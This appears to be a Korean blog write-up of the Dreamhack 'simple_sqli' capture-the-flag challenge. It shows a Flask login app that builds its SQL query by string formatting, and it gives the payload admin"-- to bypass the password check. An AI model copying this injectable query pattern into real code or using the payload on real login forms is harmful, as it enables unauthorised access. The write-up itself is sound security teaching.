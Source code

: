 ```yaml
---
title: simple_sqli
author: sally
date: 2024-01-17 23:24:00 +0800
categories: [Dreamhack, Web]
tags: [web, sql injection, level1]
img_path: /assets/img/posts/20240117/
---
```


## 문제
![login](simple_sqli/login.jpg){: .w-75 .shadow .rounded-10 w='1212' h='668' }

## 풀이 방법
**app.py**
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

문제 파일 코드를 간단히 설명하면 다음과 같다.

1. **sqlite3 db** 사용
2. users table 생성 (userid, userpassword)
3. ("guest", "guest"), ("admin", random value) 를 삽입
4. **admin** 계정으로 로그인하면 **FLAG** 값을 출력

admin으로 로그인하면 플래그를 획득할 수 있다는 것을 알 수 있다.

코드의 로그인 확인 쿼리는 다음과 같다.
```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

[sqlite의 주석](https://www.sqlite.org/lang_comment.html)은 "--"이기 때문에 userid를 `admin"--`으로 입력하면 쿼리문이 다음과 같이 될 것 이다.
```sql
select * from users where userid="admin"--" and userpassword="123"
```

패스워드는 아무거나 입력해도, 성공적으로 플래그를 획득 할 수 있다. 

